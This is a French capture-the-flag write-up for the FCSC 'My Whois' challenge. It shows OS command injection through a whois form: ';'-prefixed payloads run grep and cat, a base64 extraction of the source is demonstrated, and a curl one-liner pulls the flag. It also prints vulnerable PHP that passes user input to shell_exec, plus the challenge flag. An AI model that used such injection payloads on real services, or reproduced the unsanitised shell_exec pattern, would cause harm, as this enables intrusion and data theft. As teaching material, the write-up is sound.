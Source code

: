 # My Whois

catégorie | points
:---: | :---:
misc | 25

## 0x0 Intro

>Nous avons mis en place un service en ligne faisant de la recherche de nom de domaine. Pouvez-vous accédez à son code source ?
>
>http:\//challenges1.france-cybersecurity-challenge.fr:7001

## 0x1 Explications

Quelques bases en linux vous serons nécessaire pour réaliser ce challenge.
Nous allors jouer avec la ligne de commande, et je vous montrerai trois façons 
de valider ce challenge.

![challenge](./IMG/1.png)

## 0x2 Reconnaissance

Nous allons commencer par tester le service en question, voir comme il fonctionne.

![whois chatonesque](./IMG/2.png)

Nous avons bien le retour du whois comme nous l'aurions eu en tapant la commande
suivante sous linux:

```bash
whois blog.caturday-lovers.fr.nf
```

Nous pouvons donc supposer que notre demande est redirigée vers un shell, dont 
la sortie nous sera redirigée sur la page.

Pour tester cela, nous allons faire un simple **ls -alh** qui nous listera les 
fichiers présent dans le répertoire en cours, et qui sait, peut-être voir notre 
fichier à sourcer.

![test du ls](./IMG/3.png)

## 0x3 Exploitation

C'est bien ce que nous supposions, le site nous redirige la sortie d'un terminal.
Nous allons pouvoir faire ce que nous voulons de lui.

### 0x3-0 Solution 1, tout via le site

Nous savons que nous cherchons un flag dans le fichier index.php, nous avons 
sous linux une armada d'outils pour le faire, mais j'en aime un tout particulièrement,
c'est GREP.

Avec GREP nous pouvons rechercher un pattern particulier, et c'est ce que nous
allons faire ici.

Nous savons que le format des flags est FCSC {xxxx} où "xxxx" est une chaîne 
contenant des caractères ASCII imprimables. Avec Grep, nous pouvons le faire 
comme ceci:

```bash
grep -o -E "FCSC{.*?}"
```

L'option -o pour n'afficher que le résultat, et -E pour rechercher le pattern 
donné entre guillemets. La signification de **.\*?** est la suivante:

**.** = un caractère

**\*** = répété autant de fois

**?** = jusqu'au dernier caractère du pattern.

La commande à passer dans la box est donc :

```bash
; grep -E "FCSC{.*?}" index.php
```

Le **;** au début est important, c'est un opérateur de liaison qui va dire

> dès que la première commande est finie, enchaine sur la suivante

Une liste d'opérateurs est disponible [ici](https://linuxhint.com/bash_operator_examples/)

Le résultat de la commande est:

![inline web](./IMG/5.png)

### 0x3-1 Solution 2, extraction via base64

Que ce passerait-il si nous avions fait un: 

```bash
cat index.php
```
--La  réponse n'est pas forcément celle attendue, en effet, le serveur va 
interpréter le code sur certaines parties, et donc le rendre illisible.--

Précision de la part de ribt (merci à toi)

>En effet sur ta page tu vois plein de blancs mais ça n'est pas parce que le serveur l'exécute au contraire c'est ton navigateur qui attend du code HTML alors il te montre pas les <?php ... ?>. Tu avais juste à faire clic droit, "voir le code source" et tu aurais vu le PHP (probablement en rouge d'ailleurs).
>D'ailleurs tu vois bien que le serveur envoie le code puisque le curl avec cat index.php fonctionne

![online cat](./IMG/4.png)

Une des solutions, qui est utilisée en redteam pour extraire des données, c'est
l'utilisation de l'encodage base64, l'avantage, c'est qu'il est reversible et
qu'il conserve l'intégrité du document.

Il donne un bloc qui permet l'extraction sans être interprété, et de le décoder
ensuite sur sa machine:

![online b64](./IMG/6.png)

Il ne vous reste plus qu'a le copier et le coller dans  un document sur votre 
machine, et d'utiliser la fonction de décodage native dans votre shell:

```bash
cat base64.txt | base64 -d 
```

ou comme sur ma machine avec un alias

```bash
cat base64.txt | decode64
```

La moulinette passée, vous accédez à la source de la page:

```php

<?php
  
  /*
  ** The flag is:
  ** FCSC{2e3405155d63a7d82f215d17232ea102314509ecbe90d605cf8be26f4639153b}
  */

  ini_set('display_errors', 0);
  ini_set('display_startup_errors', 0);
  error_reporting(0);

  abstract class Command {
    public static function whois($domain) {
        $cmd = "/usr/bin/whois $domain";
        return shell_exec($cmd);
    }
  }
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">

    <title>MyWhois</title>

    <!-- Bootstrap core CSS -->
    <link href="css/bootstrap.min.css" rel="stylesheet">
  </head>

  <body>

    <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
      <a class="navbar-brand" href="index.php">MyWhois</a>
    </nav>

    <main role="main" class="container">
      <div class="jumbotron">
        <?php
          if(isset($_GET['domain']) && $_GET['domain'] !== ''){
            echo '<h1>Result: ' . $_GET['domain'] . '</h1><br>';
            echo '<pre>';
            echo Command::whois($_GET['domain']);
            echo '</pre>';
          } else {
        ?>
          <h1>MyWhois</h1>
          <p class="lead" style="margin-bottom:0px;">
            You custom whois tool!
          </p>
          <form action="index.php" method="get">
            <div class="row">
              <div class="col-sm">
                <div class="input-group mb-3">
                  <div class="input-group-prepend">
                    <span class="input-group-text" id="head-suffix">Domain</span>
                  </div>
                  <input type="text" class="form-control" placeholder="ssi.gouv.fr" id="domain" name="domain" value="">
                </div>
              </div>
            </div>
            <center>
              <button type="submit" class="btn btn-primary">Whois</button>
            </center>
          </form>
        <?php
          }
        ?>
      </div>
    </main>
  </body>
</html>
```

Il ne reste plus qu'a chercher le commentaire.

### 0x3-2 Solution 3, la ligne de commande et curl

La dernière solution proposée, est à base de ligne de commande.
Lors des précédentes méthodes, vous vous êtes peut-être aperçu que l'adresse
changeait dynamiquement avec nos requetes.

Nous pouvons utiliser ce vecteur pour réaliser une exfiltration en une seule 
ligne de commande:

```bash
curl http://challenges1.france-cybersecurity-challenge.fr:7001/index.php?domain=%3Bcat+index.php | grep -o -E "FCSC{.*?}"
```
![inline curl extraction](./IMG/7.png)

## 0x4 TL;DR

Dans cet exercice, nous avons abusé une requête qui n'était pas sécurisée, et 
qui nous à donné le champ libre pour une [Execution de code à distance](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

Une fois le code executé, nous avons eu au choix:

* la possibilité d'afficher le flag sur la page
* extraire le code de la page web (utile pour voler les IDs MySQL) via base64
* utiliser curl et une ligne de commande unique afin de parser la page récupérer le flag.
